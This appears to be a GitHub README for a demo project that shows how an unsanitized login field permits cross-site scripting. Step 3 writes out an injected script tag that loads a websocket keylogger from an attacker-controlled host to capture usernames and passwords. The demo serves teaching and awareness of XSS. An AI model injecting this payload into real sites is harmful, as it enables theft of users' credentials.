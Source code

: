 # Xss-Keylogger-with-demo
A websocket keylogger that listens to user input

What is it?:

This is a simulation of a how vulnerable inputs can lead to Xss attacks. The payload is a websocket keyloagger that logs user input (username and password in this case)

Usage:
Step 1
run the webapp and navigate to the login page
```go run main.go -listen-addr=<ip>:<port> -ws-addr=<ip>:<port>```
![running the web app and navigating to the login page](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger1.png)

Step 2
Experiment with the username input. it will print everything that you write without sanitization.


![experimenting with user input](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger2.png)

Step 3 
Run this javascript to make a websocket connection. it uses the same ip and port of the webapp in this case.
 ```<script src='http://<wskeylogger_ip>:<port>/k.js'></script>```
![running malicious script](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger3.png)

Step 4
See how every input is now being logged
![running malicious script](https://github.com/SchrodingersNeko749/Xss-Keylogger-with-demo/blob/main/wsklogger4.png)
